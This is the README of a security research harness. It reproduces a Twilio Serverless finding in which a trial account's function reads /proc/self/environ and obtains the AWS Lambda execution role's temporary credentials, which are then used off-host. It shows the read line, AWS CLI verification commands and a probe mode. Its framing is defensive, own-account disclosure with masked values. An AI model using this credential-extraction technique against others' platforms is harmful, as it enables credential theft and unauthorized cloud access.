

# Twilio Serverless: the execution role's credentials, from inside the function

> A trial account with no payment method deploys JavaScript to Twilio's Serverless
> runtime. The function reads `/proc/self/environ` and gets the Lambda execution
> role's `ASIA…` key, secret and session token. Those values work from a laptop.
> They identify the AWS account and the role, and the role's demonstrated
> permission is writing its own log group.
> Write-up: **https://shoo0lin.github.io/posts/twilio-trial-serverless.html**



*Reconstruction, not a capture — the response shape, redrawn.*

This repository is the harness behind the write-up, published because the write-up
made a specific claim about what the credential could and could not do, and that
claim should be checkable. It runs only against an account you own.

The finding is deliberately small, and the smallness is the point. My first draft
scored it 9.9 by claiming the parent account's SID and auth token were in the
function context. They were not: the run's own JSON says
`"parent_token_present": false`, and the token that *was* present belongs to the
trial account I already controlled. The honest score is **4.3 Medium**.

## What the function returns

```js
const raw = fs.readFileSync("/proc/self/environ", "utf8");
```

```json
{
  "aws_access_key_id":     "ASIAY2IZEHUX…",
  "aws_secret_access_key": "masked",
  "aws_session_token":     "present (1100 chars)",
  "aws_region":            "us-east-1",
  "aws_function_name":     "ZBeaf0U42…",
  "aws_log_group":         "/aws/lambda/ZBeaf0U42…",
  "parent_token_present":  false,
  "auth_token_present":    true,
  "account_sid":           "ACda1b0c…",
  "service_sid":           "ZS7e106d…",
  "environment_sid":       "ZE2486da…",
  "domain":                "rce-build-test-2034-dev.twil.io"
}
```

That is the field run's response. This repository's function also echoes
`aws_lambda_runtime_api` — the link-local address the runtime answers on — and a
`read_error` field that is `null` when the read succeeded.

`process.env` is not where the interesting values live on this runtime — the
runtime's require-hooking strips some of them from the ordinary environment.
`/proc/self/environ` is the kernel's copy of what the process was started with,
and nothing in the JavaScript layer rewrites it.

## The credential, measured rather than assumed

```console
$ aws sts get-caller-identity --profile twilio-leak
{
  "UserId":  "AROAY2IZEHUX…:ZBe35605a7…",
  "Account": "606179966…",
  "Arn":     "arn:aws:sts::606179966…:assumed-role/lambda-role-execution/ZBe35605a7…"
}
```

`GetCallerIdentity` answers for every principal, including ones with no permissions
at all. It proves the credential is real and off-host; it proves nothing about
authorization. The permission measurement is the next call:

```console
$ aws logs put-log-events --log-group-name "/aws/lambda/ZBeaf0U42…" \
    --log-stream-name "bb-repro-pwn" --log-events '[ … ]'
{ "nextSequenceToken": "496703824176290625488423465073…" }
```

| Capability | Status | How it was established |
|---|---|---|
| Read the role's key, secret and session token as user code | **proven** | the response above |
| Use them off-host | **proven** | `sts:GetCallerIdentity` from a laptop |
| Learn the AWS account id, role ARN, log-group path, runtime API address | **proven** | same two responses |
| Write to the function's **own** log group | **proven** | `nextSequenceToken` in the `put-log-events` response |
| Read another tenant's environment, logs, S3 or IAM | **not attempted** | the field run stopped at the two calls above |
| Parent token / account takeover | **absent** | `"parent_token_present": false` |
| Spam or phishing from the trial number | **refuted** | trial watermark + verified-destination restriction |

Two of those rows are the reason this is a Medium. A role that can write its own
logs is a confidentiality problem — the values are readable and they name the
account and role — without being an integrity or availability problem for anyone
else. A run that found more would score higher, and the harness is built so that
if you find it, you can say so with output.

## The controls, and why they exist

`poc/controls.py` presents the same credential three ways and requires:

| Presentation | Required result | Why it matters |
|---|---|---|
| key + secret, session token removed | **denied** | if this succeeded, the value would be a long-lived key and the severity would be different |
| key + secret + fabricated session token | **denied** | the token is part of the signature, not a decoration |
| key + secret + captured session token | **allowed** | the positive control; without it nothing above means anything |

The script exits non-zero if any case misbehaves, so a broken harness fails loudly
instead of quietly "proving" something. These three cases are the harness's
expectation of an assumed-role credential; run them on your own capture before you
quote a severity.

## Run it against your own account

You need: a Twilio account (a trial is enough and is the point), the
[Twilio CLI](https://www.twilio.com/docs/twilio-cli), `jq`, `curl`, Python 3, and
the AWS CLI if you want to use the credential off-host.

```console
$ export TWILIO_ACCOUNT_SID=AC…          # your own account
$ export TWILIO_AUTH_TOKEN=…             # your own account
$ ./poc/deploy.sh
$ export BASE_URL=https://<domain>.twil.io
$ ./poc/fetch.sh                         # masked summary
$ ./poc/fetch.sh --reveal                # full response into out/response.json
$ python3 poc/offhost_check.py           # identity
$ python3 poc/offhost_check.py --write   # + the own-log-group write
$ python3 poc/controls.py                # the three-way differential
```

`poc/deploy.sh` writes a fresh `REVEAL_TOKEN` to `.env`; `functions/env-audit.js`
returns the credentials only when the request carries it, so a function you forget
to delete is not a public credential dump. `out/` is git-ignored. Every value in
`evidence/` is masked to the policy `poc/redact.py` implements. Two commands make
that checkable rather than asserted — the first checks the policy, the second
checks the published files against it:

```console
$ python3 poc/redact.py --self-test
SELFTEST PASS — 10 forbidden strings absent; region and domain intact

$ python3 poc/redact.py --check
clean     evidence/account.txt
clean     evidence/identity.txt
clean     evidence/log-write.txt
clean     evidence/response.redacted.json

OK — 4 file(s) are fixed points of the policy
```

`--check` fails if re-running the masker would change anything, which is what
"already masked" has to mean.

`poc/offhost_check.py --probe` additionally attempts `s3 ls`, `iam get-user`,
`lambda list-functions` and `logs describe-log-groups` with the captured
credential, and labels each `ALLOWED` or `denied`. That mode is **not** part of the
original evidence: the 2026-05 run made no such calls. If you run it, the results
are yours.

## What this repository is not

It is not a tool for extracting credentials from someone else's Serverless tenant.
Every script deploys to, or uses values from, an account you control; `fetch.sh`
reads a `BASE_URL` you deployed, and `offhost_check.py` reads a response file your
function produced. There is no enumeration, no target list, no automation against a
third party.

The raw evidence bundle is not published. It is a screen recording and a set of
screenshots containing live credentials, full SIDs, a phone number and a handset
screen. `evidence/` keeps the parts that carry the argument, in the masked form
published with the write-up.

The deployed endpoint is not published either. It executes code as whatever role
the platform assigns, and there is no reason to leave a working one in a public
page.

## Media

| File | What it is |
|---|---|
| `media/00-cover-reconstruction.png` | **reconstruction**, not a capture — the response shape, redrawn |
| `media/01-trial-sms.png` | field capture, cropped to the received bubble; starts *"Sent from your Twilio trial account"* |
| `media/make-cover.py` | the script that drew the reconstruction |

The received bubble is the refutation of the spam leg, so it is included as
evidence rather than as illustration. It is cropped to the bubble: the number, the
timestamp and the verification codes are not in the frame.

## Layout

```
functions/env-audit.js     reads /proc/self/environ; masked unless ?token= matches
functions/message.js       one guarded trial SMS, to a verified number only
poc/deploy.sh              twilio serverless:deploy, with a fresh reveal token
poc/fetch.sh               call the function; raw + redacted response
poc/offhost_check.py       use the credential off-host; --write, --probe
poc/controls.py            token-removed / token-fabricated / token-real
poc/redact.py              field-name masking + value pass; --self-test, --check
evidence/response.redacted.json   the function's response, masked
evidence/identity.txt             sts:GetCallerIdentity, masked
evidence/log-write.txt            the one permitted write
evidence/account.txt              trial balance, number purchase, SMS, watermark
```

## Licence

MIT — see [LICENSE](LICENSE).

Not affiliated with or endorsed by Twilio or Amazon. Twilio, Twilio Serverless,
AWS and Lambda are trademarks of their respective owners. This is independent
security research on my own trial account, published with the values masked.
